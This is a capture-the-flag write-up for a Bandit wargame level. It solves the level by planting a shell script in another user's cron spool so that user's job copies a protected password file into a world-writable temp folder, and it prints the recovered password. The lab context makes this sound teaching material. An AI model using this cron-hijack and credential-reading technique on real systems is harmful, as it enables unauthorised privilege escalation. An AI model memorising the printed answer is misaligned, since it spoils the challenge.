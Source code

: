 # Bandit Level 23
## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Solution
ls -la /etc/cron.d\
cat /etc/cron.d/cronjob_bandit24\
cat /usr/bin/cronjob_bandit24.sh\
mktemp -d\
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.dOEPsW837c/pass
```
touch pass\
chmod 777 -R /tmp/tmp.dOEPsW837c/ \
cp script.sh /var/spool/bandit24/foo

## Pass
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar